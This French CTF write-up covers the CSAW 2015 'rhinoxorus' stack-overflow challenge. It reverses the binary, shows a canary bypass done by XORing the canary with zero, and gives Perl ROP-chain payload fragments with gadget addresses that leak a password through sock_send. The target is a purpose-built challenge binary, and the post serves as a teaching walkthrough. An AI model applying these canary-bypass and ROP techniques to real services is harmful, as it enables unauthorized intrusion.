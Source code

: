 ```yaml
---
title: CSAW-preq 2015 - Rhinoxorus (exploitable 500)
date: 2015-09-24
tags: ctf,exploit,csaw2015
author: Tosh
layout: post
---
```



Voici un petit write-up pour le challenge 'rhinoxorus' du CSAW ctf 2015.

### **Analyse**

```
    $ rop-tool info ./repo/ctf/2015/csaw-preq/exploit500

     ===== INFOS =====
    Filename                 ./repo/ctf/2015/csaw-preq/exploit500
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x8048750
    Loadables segments       2
    Sections                 30

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled
```

Il s'agit d'un fork-serveur écoutant sur le port 24242. Une fois connecté, le serveur lit une chaine de caractères, puis fais quelques opérations dessus. On arrive assez vite à faire planter le serveur en envoyant une chaine assez longue.


Au début du challenge, le code source n'était pas fourni (il le fût au bout d'un moment, mais j'avais déjà fini la partie reversing...), j'ai donc sorti IDA pour tenter de comprendre le fonctionnement de ce mystérieux programme.


On trouve dans le programme 256 fonctions, ayant la forme suivante (pas 100% fidèle) :

```c
    #define BUFF_SIZE(X) ((0x84 - (0x32 - X)*4) & 0xFF)
    #define CHAR_TO_FUNC(c) ((c + 0x32) & 0xFF)

    #define CALL_FUNC(x,s,c) do { functions[x](s,c); } while(0)

    #define FUNC(X)                                 \
      void func_X(char *buff, int count) {          \
        char s[BUFF_SIZE(X)];                       \
        int i;                                      \
                                                    \
        if(--count == 0)                            \
          return;                                   \
                                                    \
        memset(s, BUFF_SIZE(X), BUFF_SIZE(X));      \
                                                    \
        for(i = 0; i < count; i++) {                \
          s[i] ^= buff[i];                          \
        }                                           \
                                                    \
        CALL_FUNC(CHAR_TO_FUNC(s[0], ++s, count));  \
                                                    \
      }
```

On remarque que notre chaine de caractère est traité de cette manière :

```c
    CALL_FUNC(CHAR_TO_FUNC(buffer[0], buffer, len_received);
```

On peut constater que ces fonctions sont toutes vulnérables à un stack based overflow...

Maintenant, comment exploiter tout ça, en sachant qu'il y a Stack Smashing Protector ?


### **Exploitation**

Ma cible a été la fonction func_00 (il fallait en choisir une...)

Au début de ma chaine, je mets une rop-chain exécutant sock_send(sock, password, len). Ils ont été gentils de nous fournir cette fonction, en plus du password à une adresse fixe...
Mais je pense, qu'une fois qu'on était arrivé à faire exécuter notre rop-chain, il aurait été plutôt facile de réaliser une exploitation plus poussée (leak de la libc, mmap() d'un shellcode, etc...)

```perl
    $buff .= pack("L", 0x0804a5ce); # ret
    $buff .= pack("L", 0x0804884b); # sock_send()
    $buff .= pack("L", 0x44444444); # dummy
    $buff .= pack("L", 5);          # sock
    $buff .= pack("L", 0x0805f0c0); # @password
    $buff .= pack("L", 0x100);      # len

```

Au début de ma rop-chain, je mets un 'ret' car étant donné que le premier caractère de notre chaine détermine quelle fonction est appelée, il est plus facile de trouver une instruction ret avec un byte de poids faible permettant d'appeler notre fonction func_00().

```
$ rop-tool g ./repo/ctf/2015/csaw-preq/exploit500 -d 1 -a -n | grep ret | grep "ce ->"
     0x0804a5ce -> ret ;
```

Je remplis ensuite le buffer à overflowé avec n'importe quoi...

** Comment bypasser le canary ?**

Étant donné que le buffer sur lequel nous débordons est xoré avec notre payload...Si on XOR le canary avec 0x0, notre canary ne sera pas modifié !

Ensuite, une fois la fonction func_00 appelée, nous souhaitons que l'exécution s'arrête afin d'éviter un segfault dans une autre fonction ayant un buffer plus petit. Pour se faire, on remarque qu'il est possible d'écraser la variable count, variable utilisée comme cas d'arrêt.

Si on met cette variable à 1, alors la prochaine fonction func_X appelée retournera immédiatement.

Étant donnée que dans func_00, la variable count vaut 0xd7 (taille de notre buffer - 1), il suffit de xorer cette valeur avec 0xd7 XOR 1.

En effet :

```
count = 0xd7 XOR (0xd7 XOR 1)

<=> count = (0xd7 XOR 0xd7) XOR 1

<=> count = 1

```

Ensuite, notre rop-chain (le buffer présent dans process_connection()), étant situé à ESP+0x1c octets au moment du retour de la fonction func_00, on a besoin d'écraser saved-eip par la valeur d'un gadget permettant d'incrémenter ESP de 0x1c octets.

```
$ rop-tool g ./repo/ctf/2015/csaw-preq/exploit500 -d 10 | grep "add esp"
    0x080578f5 -> add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret ;
     ...
```

Par chance, nous trouvons pile ce qu'il nous faut.

Il ne faut pas oublier de XORER cette adresse avec l'ancien saved-eip dans notre payload.

On a tout ce qu'il faut pour créer notre exploit et obtenir le flag !

```perl
    $buff .= pack("L", 0x0);                     # canary
    $buff .= pack("L", 0x44444444)x3;            # padding

    $buff .= pack("L", 0x080578f5 ^ 0x08056afa); # add esp, 0xc, pop4 ; ret
    $buff .= pack("L", 0x44444444);              # dummy
    $buff .= pack("L", 0xd7 ^ 0x1);              # count
```

L'exploit se trouve ici : [exploit](https://github.com/t00sh/ctf/blob/master/2015/csaw-preq/exploit500.pl)

Et le binaire là : [binaire](https://repo.t0x0sh.org/ctf/2015/csaw-preq/exploit500)


Challenge intéressant ; il fallait voir qu'on pouvait XORER le canary avec 0x0 et écraser la variable count afin de stopper l'exécution.
